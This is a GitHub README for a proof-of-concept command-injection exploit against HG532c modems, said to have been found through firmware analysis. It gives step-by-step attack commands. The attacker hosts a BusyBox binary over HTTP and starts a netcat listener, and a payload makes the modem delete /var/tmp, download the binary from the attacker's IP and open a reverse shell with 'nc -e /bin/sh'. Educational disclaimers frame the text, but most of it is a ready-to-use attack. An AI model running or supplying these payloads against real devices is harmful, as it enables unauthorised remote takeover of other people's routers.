


# RCE-HG532c

This repository contains a proof of concept for gaining a reverse shell on vulnerable **HG532c modems** through a command injection exploit. The target devices do not have Netcat included in their default BusyBox installation. This method downloads a custom BusyBox binary (which includes Netcat) to the modem and uses it to establish a reverse shell.
This is a web exploit though 80 port using python requests module. This vulnerability was discovered through firmware
analysis. The firmware was extracted with Bus Pirate v4 with hardware hacking techniques.




## Disclaimer

This project is intended for educational purposes only and should not be used in any illegal activities. Always have permission from the device owner before attempting any exploits. The repository authors are not responsible for any misuse of this software.

## Exploit Steps

The following steps outline how to execute the reverse shell exploit on a vulnerable HG532c modem:

### 1. Start a Python Web Server

First, you need to host the `busybox-mips` binary on a Python web server so the vulnerable modem can download it.

In the directory where you have `busybox-mips`:
```bash
python3 -m http.server 8000
```

### 2. Start a Netcat Listener

On the attacker's machine, set up a Netcat listener to catch the reverse shell connection. Replace `1234` with the desired port:
```bash
nc -lvnp 1234
```

### 3. PAYLOAD

Use the following payload to download `busybox-mips` to the modem, grant it execution permissions, and use it to open a reverse shell back to the attacker's machine:

```bash
# Clean up the /var/tmp directory and create a new one
rm -rf /var/tmp
mkdir /var/tmp

# Download busybox-mips from the attacker's machine
wget -g -v -r http://<attacker-ip>:8000/busybox-mips -P /var/tmp

# Grant execution permissions to busybox-mips
chmod +x /var/tmp/busybox-mips

# Start a reverse shell from the modem to the attacker's machine
/var/tmp/busybox-mips nc <attacker-ip> 1234 -e /bin/sh
```

Replace `<attacker-ip>` with the actual IP address of the attacker's machine.

### Notes

- **BusyBox MIPS Binary**: Make sure that the `busybox-mips` binary includes the Netcat utility.
- **Reverse Shell**: The reverse shell will connect back to the attacker's machine on the specified port (`1234` in this example).



## Requirements

- Python 3 (for hosting the web server)
- Netcat (for catching the reverse shell)
- A vulnerable HG532c modem that allows command injection

## Legal Disclaimer

This software is provided for educational purposes only. The author is not responsible for any illegal use of this software. You are responsible for ensuring that you have permission to exploit any device.
